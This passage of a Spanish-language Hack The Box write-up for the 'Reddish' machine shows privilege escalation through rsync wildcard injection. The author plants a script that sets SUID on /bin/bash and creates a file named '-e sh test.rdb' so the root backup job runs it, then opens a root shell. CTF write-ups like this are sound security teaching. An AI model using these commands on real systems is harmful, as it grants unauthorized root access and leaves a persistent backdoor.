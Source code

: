 Se está creando un backup con ```rsync```. Tengo capacidad de lectura del script

```null
www-data@www:/$ cat /backup/backup.sh
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```

Se pueden llegar a inyectar comandos en ```rsync```

<img src="/writeups/assets/img/Reddish-htb/5.png" alt="">

Creo un script en bash que se encargue de asignarle el SUID a la bash y lo almaceno en un archivo con extensión ```.rdb```

```null
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ echo -e '#!/bin/bash\nchmod u+s /bin/bash' > test.rdb
```

Renombro otro archivo al parámetro que quiero que interprete y le paso como argumento el ```test.rdb```

```null
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ touch -- '-e sh test.rdb'
```

Al tener la bash como SUID, la puedo spawnear como el propietario, que es ```root```

```null
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1029624 Nov  5  2016 /bin/bash
```

```null
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ bash -p
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
bash-4.3# whoami
root
```

Puedo ver la primera flag

```null
bash-4.3# cat user.txt 
3335fb3a68d07b41f25d8bfc436f7aee
```
